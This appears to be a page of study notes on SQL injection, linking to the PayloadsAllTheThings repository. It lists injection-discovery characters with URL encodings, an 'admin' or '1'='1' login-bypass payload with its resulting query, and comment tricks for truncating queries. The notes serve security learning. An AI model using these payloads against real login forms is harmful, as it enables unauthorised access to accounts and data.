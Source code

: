 # SQL Injections

# SQL Injections Payload

[PayloadsAllTheThings/SQL Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

# **SQLi Discovery**

| Payload | URL Encoded |
| --- | --- |
| `'` | `%27` |
| `"` | `%22` |
| `#` | `%23` |
| `;` | `%3B` |
| `)` | `%29` |

# **OR Injection**

**Payload**

```sql
admin' or '1'='1
```

**The final query should be as follow:**

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

![image.png](cmd/Images/sqli_image1.png)

# **Comments**

```sql
mysql> SELECT username FROM logins; -- 
```

**Note:** In SQL, using two dashes only is not enough to start a comment. So, there has to be an empty space after them, so the comment starts with (-- ), with a space at the end. This is sometimes URL encoded as (--+), as spaces in URLs are encoded as (+). To make it clear, we will add another (-) at the end (-- -), to show the use of a space character.

The `#` symbol can be used as well.

**Note:** if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol.
